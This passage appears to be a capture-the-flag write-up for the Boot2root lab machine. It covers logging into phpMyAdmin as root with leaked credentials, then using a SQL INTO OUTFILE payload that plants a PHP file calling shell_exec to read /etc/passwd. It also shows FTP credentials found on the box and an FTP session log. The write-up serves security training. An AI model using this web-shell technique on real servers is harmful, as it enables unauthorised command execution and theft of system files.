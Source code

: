 There is a login/password to connect to the database ?
With dirb we knew there is a phpmyadmin page, but we didn't have the username and password to log in.
Let's try with the one from the email.

It works ! We can connect to the phpmyadmin as root.

root : Fg-'kKXBj87E:aJ$

Now logged as root on the phpmyadmin page, we can test some SQL command.

SELECT @ @version
5.5.44-0ubuntu0.12.04.1

Looking online on how to exploit Phpmyadmin as root user we found that we can call a SQL command to create a php file and 
call shell_exec and execute some bash command and print the result in a file.
source : https://www.netspi.com/blog/technical/network-penetration-testing/linux-hacking-case-studies-part-3-phpmyadmin/

After few tries we found the right way to call it :

select '<?php $output = shell_exec('cat /etc/passwd'); echo $output ?>' into outfile '/var/www/forum/templates_c/passwd.php'

Then after sneaking around calling ls, pwd ...etc we found in the /home directory some subdirectories related to others users :

LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

In the LOOATME directory we can found a file called password and we have in it a login/password related to user lmezard:

lmezard:G!@M6f4Eatau{sF"

Of course these credidentials are not valid to log on Boot2root machine, it's a FTP account (we knew there was a ftp service
running thanks to nmap).

Login in FTP we could connect on the machine :

ftp 192.168.56.103

Going in to pass mode we can list the directory :

tp 192.168.56.103
Connected to 192.168.56.103.
220 Welcome on this server
Name (192.168.56.103:user42): lmezard
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
500 Illegal PORT command.
ftp: bind: Address already in use
ftp> pass
Passive mode on.
ftp> ls
227 Entering Passive Mode (192,168,56,103,46,195)
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp>
